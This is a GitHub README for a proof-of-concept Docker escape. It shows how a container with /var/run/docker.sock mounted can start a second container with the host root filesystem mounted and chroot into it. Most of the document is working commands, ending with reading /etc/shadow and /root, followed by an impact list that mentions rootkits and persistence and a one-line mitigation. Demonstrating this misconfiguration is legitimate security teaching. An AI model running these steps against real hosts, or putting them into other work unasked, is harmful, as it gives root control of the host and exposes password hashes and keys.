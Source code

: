 # 🐳 Docker.sock Breakout PoC

> 🚨 A proof-of-concept showing how mounting `/var/run/docker.sock` into a container gives root access to the host.

This project demonstrates a **critical Docker misconfiguration**. By mounting the Docker Unix socket into a container, the container can communicate with the host Docker daemon — and effectively escape its sandbox, escalate privileges, and fully control the host.

## ⚠️ TL;DR

Mounting `/var/run/docker.sock` gives the container **root-level access to the host**.

## 📁 Project Structure

```
docker-sock-breakout/
├── Dockerfile
├── docker-compose.yml
└── exploit.sh
```

## 🧪 How It Works

1. A container is started with `-v /var/run/docker.sock:/var/run/docker.sock`
2. Inside the container, Docker CLI is available
3. We use Docker inside the container to run **another** container
4. That second container mounts `/` from the host and runs `chroot /host`
5. Now we’re inside the host, as root

## 🚀 Quick Start

### 1. Build and Run

```bash
git clone git@github.com:CyberSquirrel-AI/docker-sock-breakout.git
cd docker-sock-breakout

docker-compose up -d
docker exec -it docker-sock-breakout sh
```

### 2. Inside the Container

```bash
docker ps
docker run -it --rm -v /:/host alpine
```

### 3. Inside the Alpine container

```bash
chroot /host
hostname
id
ls /root
cat /etc/shadow
```


## 📉 Impact

- Full host filesystem access
- Run arbitrary containers as `--privileged`
- Read sensitive files like `/etc/shadow`, `/root/.ssh/`
- Install rootkits or persist on host
- Pivot to other containers, networks, volumes

## 🛡️ Mitigation

- ❌ Do NOT mount `/var/run/docker.sock` into untrusted containers

## ⚠️ Disclaimer

This project is for **educational purposes only**. Do not run this on any system you don't own or have permission to test. You are responsible for your actions.
